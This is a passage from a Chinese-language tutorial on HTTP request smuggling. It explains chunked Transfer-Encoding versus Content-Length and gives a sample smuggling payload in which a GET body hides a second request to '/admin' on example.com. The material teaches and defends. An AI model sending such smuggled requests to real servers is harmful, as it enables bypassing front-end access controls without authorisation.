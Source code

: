 CL&amp;TE
---------

​ CL 和 TE 即是 `Content-Length` 和 `Transfer-Encoding` 请求头（严格来讲前者是个实体头，为了方便就都用请求头代指）。这里比较有趣的是 `Transfer-Encoding`（HTTP/2 中不再支持），指定用于传输请求主体的编码方式，可以用的值有 chunked/compress/deflate/gzip/identity ，完整的定义在 [Transfer-Encoding#Directives](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Transfer-Encoding#Directives) 和 [rfc2616#section-3.6](https://tools.ietf.org/html/rfc2616#section-3.6)

​ CL好理解，对于TE我们重点关注chunked。当我们设置TE为chunked时，CL就会被省略。为了区分chunk的边界，我们需要在每个chunk前面用16进制数来表示当前chunk的长度，后面加上\\r\\n，再后面就是chunk的内容，然后再用\\r\\n来代表chunk的结束。最后用长度为 0 的块表示终止块。终止块后是一个 trailer，由 0 或多个实体头组成，可以用来存放对数据的数字签名等。譬如下面这个例子：

```php
POST / HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b  //chunk_size
q=smuggling
6
hahaha
0  //end
[blank]
[blank]
```

**另外要注意\\r\\n占2字节**，我们在计算长度的时候很容易把它们忽略。最后把请求包以字节流形式表述出来就是：

```php
POST / HTTP/1.1\r\nHost: 1.com\r\nContent-Type: application/x-www-form-urlencoded\r\nTransfer-Encoding: chunked\r\n\r\nb\r\nq=smuggling\r\n6\r\nhahaha\r\n0\r\n\r\n
```

常见走私类型
------

### 1.CL不为0

如果前端代理服务器允许GET携带请求体，而后端服务器不允许GET携带请求体，后端服务器就会直接忽略掉GET请求中的`Content-Length`头，这就有可能导致请求走私。

例如我们构造出：

```php
GET / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 43\r\n

GET / admin HTTP/1.1\r\n
Host: example.com\r\n
\r\n
```

在前端服务器看来它是一个请求，但是在后端服务器来看它就是：

```php
//第一个请求
GET / HTTP/1.1\r\n
Host: example.com\r\n

//第二个请求
GET / admin HTTP/1.1\r\n
Host: example.com\r\n
```
